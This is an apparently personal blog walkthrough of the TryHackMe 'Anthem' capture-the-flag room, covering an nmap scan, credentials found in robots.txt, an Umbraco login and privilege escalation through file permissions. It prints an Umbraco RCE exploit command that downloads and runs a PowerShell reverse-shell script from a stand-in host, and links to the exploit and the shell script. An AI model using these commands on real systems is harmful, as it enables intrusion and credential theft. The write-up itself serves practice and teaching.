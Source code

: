 ```yaml
---
layout: post
title: "Anthem: Try Hack Me Walkthrough"
date: 2020-05-15 20:20:20 +0000
last_modified_at: 2020-05-15 20:20:20 +0000
category: Walkthrough
tags: ["Try Hack Me", Anthem, Weekly Challenge]
comments: true
image:
  feature: Anthem_knhf8d.png
  credit: THM / TryHackMe
  creditlink: https://tryhackme.com/room/anthem
---
```


This post documents the complete walkthrough of Anthem, a weekly vulnerable challenge [VM][1] created by [Chevalier][2], and hosted at [Try Hack Me][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Anthem is a weekly challenge  vulnerable VM from Try Hack Me.

## Information Gathering

Let’s start with a `nmap` scan to establish the open ports in the host.

```
# nmap -vv --reason -Pn -sV -sC --version-all -oN /root/Desktop/THM/Anthem/scans/tcp_nmap.txt 10.10.63.195
...
Increasing send delay for 10.10.63.195 from 0 to 5 due to 169 out of 563 dropped probes since last increase.
Nmap scan report for 10.10.63.195
Host is up, received user-set (0.10s latency).
Scanned at 2020-05-15 15:59:17 EDT for 91s
Not shown: 995 closed ports
Reason: 995 resets
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-LU09299160F
|   NetBIOS_Domain_Name: WIN-LU09299160F
|   NetBIOS_Computer_Name: WIN-LU09299160F
|   DNS_Domain_Name: WIN-LU09299160F
|   DNS_Computer_Name: WIN-LU09299160F
|   Product_Version: 10.0.17763
|_  System_Time: 2020-05-15T20:00:26+00:00
| ssl-cert: Subject: commonName=WIN-LU09299160F
| Issuer: commonName=WIN-LU09299160F
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-04T22:56:38
| Not valid after:  2020-10-04T22:56:38
| MD5:   2814 61de 95b7 e9b5 4789 3027 7f1f 60d2
| SHA-1: d47d 2a8f 6143 b820 936e 4120 cdd1 9ddc 5385 d285
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQObhN9c8QnIVGx+ZslzEOmzANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9XSU4tTFUwOTI5OTE2MEYwHhcNMjAwNDA0MjI1NjM4WhcNMjAx
| MDA0MjI1NjM4WjAaMRgwFgYDVQQDEw9XSU4tTFUwOTI5OTE2MEYwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDA4MPIi4yCYJlBv6vwXF5lu5NbQCPQxk4q
| 7lJsJSvTRSIFi2fVl3l+rWTr69mutnVqo+bMilJorN2B6DqsCJBV+7pITFSICM6b
| +G/sOEblVust2tUU8NLbAiBH9oXhF0P5dIhMzRC4pcZjhCRR+IcOjnABTCkdAchD
| Mf4XQJx6GZOXBCBMXGW/vCKZ0q8gti7Hxs36W1ctbj8/i5obd0k0BonMlvRwKxvi
| 7SS+3NrBpc4XivD23YIqCNzErOB19DV3JqZMvbE+NhLEQA51Au2svYwgoJcIIyEC
| HBuINXeFBB+p5dMwp4wppkHN0CuquUyCBZvIPlDW8SAOAc5tgUOJAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAAziR6P3nN9/EKLhZqJKgkWP9FyNr9CusD78wem1C5fn9h7SjS1PQEhn1
| Gi50rlcUmII4E8Bnv6g/1QZnZIsPtVzO3bokQfbhTEzWOQ8RScB3ZQ+Tg7xM4duA
| NZdzR1/hjOOmPBV4ih3+AKmbEZ63V3PuJOn2+0/NsGXzGKhaNhlAof58lXkXrt9x
| DvmpyfER7oq/3+kPQhXlNK7VZ/dp26BLFQT12be1yyeVck2n/90pXTxV/COaIdsF
| q7RJPVO+4FCua77sUUSV9E5CL3oOFJT5MjkAMEkoKsU9InWHhA5w+ndQqDgXIb40
| 7b3pD6AiS/ZEvSpzCyeVnDprZxVIaQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2020-05-15T20:00:48+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 26598/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 61865/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 47039/udp): CLEAN (Timeout)
|   Check 4 (port 33149/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-15T20:00:29
|_  start_date: N/A
```

### Flag One and Website Analysis

Appears to be some kind of `http` service. Here's how it looks like.

{% include image.html image_alt="anthem_ehocop.jpg" image_src="anthem_ehocop.jpg" %}

First things first we go to http://10.10.63.195/robots.txt

{% include image.html image_alt="anthemrobots_vemv4o.png" image_src="anthemrobots_vemv4o.png" %}

It looks like we found a password or something that should not be in robots.txt at the top. We add this to a list of passwords for later use. We also find out that this system is running a Umbraco CMS.

{% include image.html image_alt="poem_bq2pmn.png" image_src="poem_bq2pmn.png" %}

Looking through the posts we find a poem that was about the Admin of the site. We google that poem and find out it was written by Solomon Grundy. We add them to users on the site to try later. 
In the HR post we see the email format is FL@anthem.com where F is first name and L is last name. So we create the user SG@anthem.com.

{% include image.html image_alt="flag1_a7okeq.png" image_src="flag1_a7okeq.png" %}

Looking at the source code of the hiring page we can find our first flag in <meta content>

### Flag Two

{% include image.html image_alt="flag2_wjcmbn.png" image_src="flag2_wjcmbn.png" %}

We go back to the main page and view the source of website. This leads us to flag number two which can be found in the source code.

### Flag Three

{% include image.html image_alt="flag3_h41kft.png" image_src="flag3_h41kft.png" %}

We click on the we are hiring page and see that Jane Doe is the author and we can navigate to a page called /authors/jane-doe. We follow the link and are awarded the third flag.

### Flag Four

{% include image.html image_alt="flag4_aznzrp.png" image_src="flag4_aznzrp.png" %}

By following the steps for Flag One we can find Flag Four in the meta content on the IT poem page.

## Exploiting the Box

### Getting `user.txt`

{% include image.html image_alt="umbraco_jwou73.png" image_src="umbraco_jwou73.png" %}

Armed with this knowledge, we go to 10.10.63.195/umbraco and try logging in as SG@anthem.com and using the password we found on the robots.txt We are able to log in. 
We can determine the Umbraco version by clicking the ? icon and see that we are attacking Umbraco 7.15.4

Using searchsploit we only see 7.12.4 has an exploit and old metasploit exploit from 2012. I tried the 7.12.4 manually and it seemed to work so I found the following [GitHub Exploit][4] 
We then use the following powershell reverse shell found on [GitHub PS1 Script][5]


{% include image.html image_alt="shell_gnzq9a.png" image_src="shell_gnzq9a.png" %}

```
We send the following command with our nc listener open
python exploit.py -u 'SG@anthem.com' -p 'password' -i 'http://10.10.63.195' -c 'powershell.exe' -a "IEX (New-Object Net.WebClient).DownloadString('http://yourip/shell1.ps1')"
```

We do a net user and find out that SG is a user on the box. We try using the RDP port from earlier with the same password and we can log in as SG


```
xfreerdp /u:SG /p:password /v:10.10.63.195

```

We can skip the above shell part and just run the following command to get the same result.

```
python exploit.py -u 'SG@anthem.com' -p 'password' -i 'http://10.10.63.195' -c "powershell.exe" -a 'net users'

```

{% include image.html image_alt="FreeRDP_nnsvbu.png" image_src="FreeRDP_nnsvbu.png" %}

Bingo.


### Getting `root.txt`

Now, it's a matter of finding a hidden password on the box.

We open the file explorer and check the show hidden files button under view.
We find a backup folder at C:\backup with a file called restore in it. We tried to open it but we don’t have rights however if we look at the properties we are the owner. Lets see if we can give our self-access to it. We go to the security tab and click edit for permissions and then click add as no groups have been assigned to this file

{% include image.html image_alt="secuirty_p1w1rl.png" image_src="secuirty_p1w1rl.png" %}

We then click ok and give full control to SG and click apply. We can now open the file and see a long string that looks like a password!
We try to rdp in as Admin with this password from that file and we can get root

{% include image.html image_alt="anthemroot_gposdb.png" image_src="anthemroot_gposdb.png" %}

:dancer:

[1]: https://tryhackme.com/room/anthem
[2]: https://tryhackme.com/p/Chevalier
[3]: https://tryhackme.co
[4]: https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py
[5]: https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1

